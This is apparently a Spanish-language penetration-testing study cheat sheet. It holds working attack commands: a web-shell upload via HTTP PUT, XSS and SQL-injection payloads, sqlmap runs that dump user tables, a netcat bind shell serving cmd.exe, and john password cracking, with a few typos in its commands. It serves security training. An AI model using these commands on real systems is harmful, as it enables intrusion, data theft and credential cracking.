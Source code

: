 # Enrutamiento

```powershell
    ip route # linux
    route print # windows
    netstat -r # OSX
```

# Direcciones MAC

```powershell
    ip addr # linux
    ifconfig /all # windows
    ifconfig # OSX
```
# TCP/UDP

Puertos bien conocidos 0-1023

# Test firewall

## Test 1
    syn 
    No contesta

## Test 2
    syn 
    RST/ACK
    

## Filtros de captura 

    ip
    net ip/sufix
    src net ip/sufix
    host ip

Mostrar flujo tcp en 1 ventana

        tcp.stream eq 1


## HTTP

### Hacer conexion con https

openssl s_client -connect dominio:443 -quiet


## Same Origin Policy

Es para prevenir que el js obtenga o fije propiedades de recursos que vengan de diferente origen.

http://misite.com:8383/

Los atributos deben hacer match:
    El protocolo 
    Hostname 
    puerto

Solo aplica al código actual del js, no aplica para etiquetas <img>,<script>,<frame>, etc...


# Information Gathering

## OSINT

Buscar info en internet 

    Inversores y personas 
        https://www.crunchbase.com/

    whois 
        * Dueño del DNS
        * Direccion 
        * Email
        * Contactos técnicos

## Subdominios 
    
    Google
        * site:companyName
    Enumeración pasiva 
        https://dnsdumpster.com/
        
        sublist3r -d domain.name
            Hace busquedas de dominios con diferentes buscadores
            **Puede scanear puertos**


## Barridos de ping 

fping -a -g ip/prefix
fping -a -g ip mask

    -a alive
    -g genera lista del prefijo

nmap -sn ip/prefix
nmap -sn ip-numero
nmap -sn ip.*
### Desde una lista de ips 
nmap -sn -iL hostlist

## Explotar un PUT al servidor

wc -m shell.php
nc vitim.com 80
PUT /shell.php HTTP/1.0
Content-Type: text/html
Content-length: 136

CONTENIDO DEL SHELL.php

### Directorios enum

#### nombres de respaldos 
    .bak .old .txt .xxx

# XSS
## XSS Reflejado
    Se envian por la url.
## XSS Almacenado
    Se guardan el payload en la bd.

## XSS scripts
### Testear XSS muchos payloads
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

### Testear un payload externo
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

### Payloads

' or 'a'='a
' union select user, pass from Table where 'a'='a

# SQL injections 
## Detección
### Inputs a probar
    * GET
    * POST
    * HTTP
      * User-Agent
      * Cookie
      * Accept
### Info de la BD
select user()
## Explotación
### Inyecciones de tipo booleano
Es cuando hay un valor boleano de la base de datos se miran mas o menos asi.

**SELECT** Name, Description **FROM** Products **WHERE** ID='' OR 'a'='a';

PAYLOAD ES
    ' OR 'a'='a
#### Para hacer el substring
    select substring(user(),2,1) = 'r';
        True y salida normal
    select substring(user(),2,1) = 'a';
        False y sin salida normal
### Payloads
#### Primera letra
    ' OR substr(user(), 1, 1) = 'a
    ' OR substr(user(), 1, 1) = 'b
#### Segunda letra
    ' OR substr(user(), 2, 1) = 'a
    ' OR substr(user(), 2, 1) = 'b

## UNION Based SQL Injections
    Payload
    ' UNION SELECT user(); -- -
    Archivos de datos
    SELECT desc FROM items WHERE id='' UNION SELECT user(); -- -';
    
**https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet**

sqlmap -u 'http://ip?param=n' -p paramInjection --technique=U

--dbs
-D Database --tables
-D Database -T table --columnsy
-D Database -T table -C username,password --dump
# Pasos

sqlmap -u "http://testsite.com/login.php"
sqlmap -u "http://testsite.com/login.php" --dbs
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --dump
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns

sqlmap -u http://slqmap.test/login.php --data='user=a&pass=a' -p user --technique=B --banner 
Tecnica boolean B 

Exportar una request del burp suite

sqlmap -r dblogin.req -p user --technique=B --banner


netcat windows 

    winconfig -l -p 1234 -e cmd.exe 

# Convertir shadown a hash 
unshadow passwd shadown > hash
# Fuerza bruta 
john -incremental -users:usernames hash
# con reglas procesamiento
john -wordlist=wordlistDict -rules HASH



















